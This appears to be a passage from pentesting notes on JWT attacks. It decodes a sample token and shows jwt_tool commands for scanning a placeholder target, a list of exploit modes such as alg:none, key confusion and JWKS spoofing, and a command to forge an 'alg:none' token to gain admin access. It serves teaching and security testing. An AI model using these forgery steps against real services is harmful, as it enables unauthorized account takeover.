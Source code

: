 
Also, to see the decoded jwt, knowing that is encoded in base64, we could echo each of its parts:

```bash
echo eyJhbGciOiJIUzUxMiJ9 | base64 -d  && echo eyJzdWIiOiJoYXBpaGFja2VyQGhhcGloYWNoZXIuY29tIiwiaWF0
IjoxNjY5NDYxODk5LCJleHAiOjE2Njk1NDgyOTl9 | base64 -d
```

Results:

```
{"alg":"HS512"}{"sub":"hapihacker@hapihacher.com","iat":1669461899,"exp":1669548299} 
```

To run a JWT scan with jwt_tool, run: 

```bash
jwt_tool -t <http://target-site.com/> -rh "<Header>: <JWT_Token>" -M pb
# in the target site specify a path that leverages a call to a token
# replace Header with the name of the Header and JWT_Tocker with the actual token.
# -M: Scanning mode. 'pb' is playbook audit. 'er': fuzz existing claims to force errors. 'cc': fuzz common claims. 'at': All tests.
```

Example:

![jwt ](../img/jwt-tool2.png)


Some more jwt_tool flags that may come in hand:

```
# -X EXPLOIT, --exploit EXPLOIT
#                        eXploit known vulnerabilities:
#                        a = alg:none
#                        n = null signature
#                        b = blank password accepted in signature
#                        s = spoof JWKS (specify JWKS URL with -ju, or set in jwtconf.ini to automate this attack)
#                        k = key confusion (specify public key with -pk)
#                        i = inject inline JWKS

```


#### 1. The none attack

A JWT with "none" as its algorithm is a free ticket. Modify user and become admin, root,... 
Also, in poorly implemented JWT, sometimes user and password can be found in the payload.

To craft a jwt with "none" as the value for "alg", run:

```bash
jwt_tool <JWT_Token> -X a
```

